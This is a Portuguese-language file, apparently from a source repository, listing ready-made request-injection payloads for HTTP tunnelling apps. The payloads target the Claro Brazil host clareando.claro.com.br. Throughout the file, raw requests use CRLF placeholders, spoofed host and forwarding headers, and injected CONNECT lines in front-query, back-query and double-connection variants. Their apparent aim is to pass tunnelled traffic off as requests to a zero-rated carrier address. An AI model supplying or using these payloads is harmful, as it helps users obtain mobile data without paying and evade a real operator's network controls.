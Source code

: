 # Esqueletos GET

> GET http://clareando.claro.com.br/ HTTP/1.1[crlf]Host: clareando.claro.com.br[crlf][crlf]CONNECT [host_port] [protocol][crlf][crlf]
- [x] Texto de Conexão: Normal
- [x] Método Requisitado: GET
- [x] Método Injeção: Inicial
- [ ] Método de Consulta: Front Query
- [ ] Cabeçalhos Extras: Não
- [ ] Conexão Dupla: Não

## Esqueletos Front Query

> GET http://clareando.claro.com.br/ HTTP/1.1[crlf]Host: clareando.claro.com.br[crlf][crlf]CONNECT clareando.claro.com.br@[host_port] [protocol][crlf][crlf]
- [x] Texto de Conexão: Normal
- [x] Método Requisitado: GET
- [x] Método Injeção: Inicial
- [x] Método de Consulta: Front Query
- [ ] Método Consulta: Back Query
- [ ] Cabeçalhos Extras: Não
- [ ] Conexão Dupla: Não

> GET http://clareando.claro.com.br/ HTTP/1.1[crlf]Host: clareando.claro.com.br[crlf]X-Online-Host: clareando.claro.com.br[crlf]X-Forward-Host: clareando.claro.com.br[crlf]X-Forwarded-For: clareando.claro.com.br[crlf]Connection: Keep-Alive[crlf]User-Agent: [ua][crlf][crlf]CONNECT clareando.claro.com.br@[host_port] [protocol][crlf][crlf]

- [x] Texto de Conexão: Normal
- [x] Método Requisitado: GET
- [x] Método Injeção: Inicial
- [x] Método de Consulta: Front Query
- [ ] Método Consulta: Back Query
- [x] Cabeçalhos Extras: Sim
- [ ] Conexão Dupla: Não

> GET http://clareando.claro.com.br/ HTTP/1.1[crlf]Host: clareando.claro.com.br[crlf]CONNECT [host_port] [protocol][crlf][crlf]CONNECT clareando.claro.com.br@[host_port] [protocol][crlf][crlf]

- [x] Texto de Conexão: Normal
- [x] Método Requisitado: GET
- [x] Método Injeção: Inicial
- [x] Método de Consulta: Front Query
- [ ] Método Consulta: Back Query
- [ ] Cabeçalhos Extras: Não
- [x] Conexão Dupla: Sim

GET http://clareando.claro.com.br/ HTTP/1.1[crlf]Host: clareando.claro.com.br[crlf]X-Online-Host: clareando.claro.com.br[crlf]X-Forward-Host: clareando.claro.com.br[crlf]X-Forwarded-For: clareando.claro.com.br[crlf]Connection: Keep-Alive[crlf]User-Agent: [ua][crlf]CONNECT [host_port] [protocol][crlf][crlf]CONNECT clareando.claro.com.br@[host_port] [protocol][crlf][crlf]

- [x] Texto de Conexão: Normal
- [x] Método Requisitado: GET
- [x] Método Injeção: Inicial
- [x] Método de Consulta: Front Query
- [ ] Método Consulta: Back Query
- [x] Cabeçalhos Extras: Sim
- [x] Conexão Dupla: Sim

## Esqueletos Back Query

> GET http://clareando.claro.com.br/ HTTP/1.1[crlf]Host: clareando.claro.com.br[crlf][crlf]CONNECT [host_port]@clareando.claro.com.br [protocol][crlf][crlf]

- [x] Texto de Conexão: Normal
- [x] Método Requisitado: GET
- [x] Método Injeção: Inicial
- [x] Método de Consulta: Front Query
- [x] Método Consulta: Back Query
- [ ] Cabeçalhos Extras: Não
- [ ] Conexão Dupla: Não

## Esqueleto Conexão Dupla

> GET http://clareando.claro.com.br/ HTTP/1.1[crlf]Host: clareando.claro.com.br[crlf]CONNECT [host_port] [protocol][crlf][crlf]CONNECT [host_port] [protocol][crlf][crlf]

- [x] Texto de Conexão: Normal
- [x] Método Requisitado: GET
- [x] Método Injeção: Inicial
- [x] Método de Consulta: Front Query
- [x] Método Consulta: Back Query
- [ ] Cabeçalhos Extras: Não
- [x] Conexão Dupla: Sim
